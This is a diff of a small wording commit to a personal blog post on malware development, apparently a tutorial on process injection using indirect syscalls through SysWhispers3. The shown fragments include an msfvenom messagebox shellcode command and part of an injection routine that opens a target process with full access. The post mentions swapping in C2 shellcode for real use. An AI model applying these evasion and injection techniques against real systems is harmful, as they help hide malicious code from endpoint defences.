

Before and after one commit to C0smicPrince/C0smicPrince.github.io, a Markdown page: MalwareDev/IndirectSyscalls/IndirectSysCalls.md, 2 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/MalwareDev/IndirectSyscalls/IndirectSysCalls.md
+++ b/MalwareDev/IndirectSyscalls/IndirectSysCalls.md
@@ -51,7 +51,7 @@ Now everything should be good to code! but just to verify right click on syscall
 we will need shellcode, i am using this metasploit command to generate it, in real use cases one might replace it with a C2 shellcode or even a remote delivery as shown in my other blogs
 
 ```
-msfvenom -p windows/x64/messagebox TEXT="Player, it works" TITLE="Informatinal message" -f c
+msfvenom -p windows/x64/messagebox TEXT="Player, it works" TITLE="informational message" -f c
 ```
 
 ### Coding the Project
@@ -107,7 +107,7 @@ HANDLE Injections(DWORD targetPID) {
 	clientId.UniqueProcess = (HANDLE)(ULONG_PTR)targetPID;
 	clientId.UniqueThread = 0; // Set to 0 since we are opening the process, not a specific thread
 
-	// 3. Invoke the direct syscall via SysWhispers3
+	// 3. Invoke the indirect syscall via SysWhispers3
 	// DesiredAccess is set to PROCESS_ALL_ACCESS (or specific flags like PROCESS_VM_WRITE | PROCESS_VM_OPERATION)
 	NTSTATUS SwOpenProcess = Sw3NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objAttr, &clientId);
 
````
